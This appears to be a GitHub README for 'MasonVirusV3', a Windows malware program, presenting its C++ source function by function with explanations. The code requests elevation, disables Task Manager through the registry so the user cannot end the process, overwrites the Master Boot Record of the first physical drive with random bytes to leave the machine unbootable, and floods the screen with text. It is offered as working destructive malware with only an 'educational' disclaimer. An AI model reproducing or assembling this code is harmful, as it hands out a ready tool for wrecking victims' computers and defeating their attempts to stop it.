# MasonVirusV3

![MasonVirusV3](https://i.ibb.co/R2rKXqY/image.png)

## Overview
This program is a demonstration of various advanced system manipulation techniques, including MBR overwriting, disabling system utilities, and simulating visual and input effects. The following sections explain each part of the code in detail.

---

### Checking for Administrator Privileges
```cpp
bool IsRunningAsAdmin() {
    BOOL isAdmin = FALSE;
    PSID adminGroup;
    SID_IDENTIFIER_AUTHORITY NtAuthority = SECURITY_NT_AUTHORITY;
    if (AllocateAndInitializeSid(&NtAuthority, 2, SECURITY_BUILTIN_DOMAIN_RID, DOMAIN_ALIAS_RID_ADMINS, 0, 0, 0, 0, 0, 0, &adminGroup)) {
        if (CheckTokenMembership(NULL, adminGroup, &isAdmin) == 0) {
            isAdmin = FALSE;
        }
        FreeSid(adminGroup);
    }
    return isAdmin == TRUE;
}
```

- **Purpose**:  
  This function checks whether the program is running with administrative privileges.

- **How it works**:  
  1. A security identifier (SID) for the "Administrators" group is created using `AllocateAndInitializeSid`.
  2. The program checks if the current process's token belongs to this group using `CheckTokenMembership`.
  3. If the token indicates membership, the function returns `true`, indicating admin privileges.
  4. The SID is freed after use to prevent memory leaks.

---

### Requesting Administrator Privileges
```cpp
void RequestAdminPrivileges() {
    if (!IsRunningAsAdmin()) {
        WCHAR szFilePath[MAX_PATH];
        GetModuleFileName(NULL, szFilePath, MAX_PATH);
        ShellExecute(NULL, L"runas", szFilePath, NULL, NULL, SW_SHOWNORMAL);
        ExitProcess(0);
    }
}
```

- **Purpose**:  
  This function requests administrative privileges if the program is not already running as an administrator.

- **How it works**:  
  1. It checks for admin privileges using `IsRunningAsAdmin`.
  2. If not running as admin, it restarts the program with elevated privileges using `ShellExecute` with the `"runas"` verb.
  3. The current process exits to allow the elevated instance to take over.

---

### Disabling Task Manager
```cpp
void DisableTaskManager() {
    HKEY hKey;
    if (RegOpenKeyEx(HKEY_CURRENT_USER, L"Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System", 0, KEY_WRITE, &hKey) == ERROR_SUCCESS) {
        DWORD dwData = 1;
        RegSetValueEx(hKey, L"DisableTaskMgr", 0, REG_DWORD, (const BYTE*)&dwData, sizeof(dwData));
        RegCloseKey(hKey);
    }
}
```

- **Purpose**:  
  Disables the Task Manager to prevent the user from terminating the program.

- **How it works**:  
  1. Opens the registry key `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System`.
  2. Sets the value `DisableTaskMgr` to `1`, which disables Task Manager.
  3. Closes the registry key after making changes.

---

### Overwriting the Master Boot Record (MBR)
```cpp
void OverwriteMBR() {
    HANDLE hDrive = CreateFileW(L"\\\\.\\PhysicalDrive0", GENERIC_WRITE, FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
    if (hDrive == INVALID_HANDLE_VALUE) {
        return;
    }
    BYTE mbrData[MBR_SIZE];
    std::random_device rd;
    std::mt19937 gen(rd());
    std::uniform_int_distribution<> dis(0, 255);
    for (int i = 0; i < MBR_SIZE; i++)
        mbrData[i] = dis(gen);
    DWORD bytesWritten;
    WriteFile(hDrive, mbrData, MBR_SIZE, &bytesWritten, NULL);
    CloseHandle(hDrive);
}
```

- **Purpose**:  
  This function overwrites the Master Boot Record (MBR) of the primary physical drive, effectively rendering the system unbootable.

- **How it works**:  
  1. Opens a handle to the primary physical drive (`PhysicalDrive0`) with write access.
  2. Generates random data to fill a buffer of 512 bytes (the size of the MBR).
  3. Writes this random data to the drive, overwriting the MBR.
  4. Closes the handle to the drive.

- **Warning**:  
  This operation is extremely destructive and should only be executed with a full understanding of its consequences.

---

### Displaying Random Text on the Screen
```cpp
void DisplayRandomText() {
    HDC hdc;
    int sx = 0, sy = 0;
    LPCWSTR lpText = L"ABOLHB"; // ENTER YOUR NAME
    while (true) {
        hdc = GetWindowDC(GetDesktopWindow());
        sx = GetSystemMetrics(SM_CXSCREEN);
        sy = GetSystemMetrics(SM_CYSCREEN);
        TextOutW(hdc, rand() % sx, rand() % sy, lpText, wcslen(lpText));
        Sleep(10);
    }
}
```

- **Purpose**:  
  Randomly displays a predefined text string on the screen at random positions.

- **How it works**:  
  1. Retrieves the device context (HDC) of the desktop window.
  2. Calculates the screen dimensions using `GetSystemMetrics`.
  3. Displays the text at random positions using `TextOutW`.
  4. The function runs in an infinite loop, continuously displaying the text.

---

## Disclaimer
This program contains potentially harmful code, including MBR overwriting, which can permanently damage a computer. Use this code for educational purposes only and at your own risk.

---

## Acknowledgments
- **Author**: ABOLHB
- **Group**: FREEMASONRY

### Disclaimer of Liability
The author and group disclaim any liability for misuse of this code. This software is provided "as is" for educational purposes only. Any damage caused by its use is the sole responsibility of the user.



